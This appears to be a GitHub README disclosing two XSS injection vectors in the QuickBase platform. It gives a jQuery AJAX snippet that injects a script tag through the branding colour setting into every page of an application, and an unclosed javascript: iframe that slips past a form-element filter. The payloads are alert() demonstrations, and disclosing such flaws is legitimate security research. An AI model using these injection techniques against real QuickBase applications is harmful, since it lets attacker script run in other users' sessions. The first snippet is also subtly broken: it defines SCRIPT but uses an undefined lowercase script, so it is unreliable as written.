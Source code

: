 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

```
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

##Form Text Element Injection
Need to run some custom JavaScript on a particular QuickBase form? No problem!

#####How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

#####Why does it work?
This one works for a couple of reasons:
- Omitting the closing tag on the iframe element allows us to skirt the regex that QuickBase is presumably using to filter out unwanted text. 
- Modern day rendering engines make an attempt to fix mistakes like unclosed tags.

```
<iframe src="javascript: alert('HELLO!')" style="display: none"
```
